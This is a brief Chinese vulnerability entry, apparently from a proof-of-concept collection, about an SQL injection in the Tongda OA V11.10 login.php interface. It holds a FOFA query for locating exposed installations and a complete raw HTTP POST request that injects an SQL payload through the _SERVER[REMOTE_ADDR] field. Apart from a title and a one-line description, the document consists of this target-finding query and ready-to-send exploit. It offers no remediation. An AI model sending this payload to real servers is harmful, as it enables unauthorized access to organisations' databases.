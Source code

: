 # 通达OAV11.10接口login.php存在SQL注入漏洞

通达OAV11.10接口 `/ispirit/interface/login.php ` 存在SQL注入漏洞。

## fofa

```yaml
app="TDXK-通达OA"
```

## poc

```java
POST /ispirit/interface/login.php HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.855.2 Safari/537.36 
Content-Type: application/x-www-form-urlencoded
Host:
Content-Length: 107

name=123&pass=123&_SERVER[REMOTE_ADDR]=1','10',(select+@`,'`+or+if(1% 3d0,1,(select+~0%2b1))+limit+0,1))--+'
```

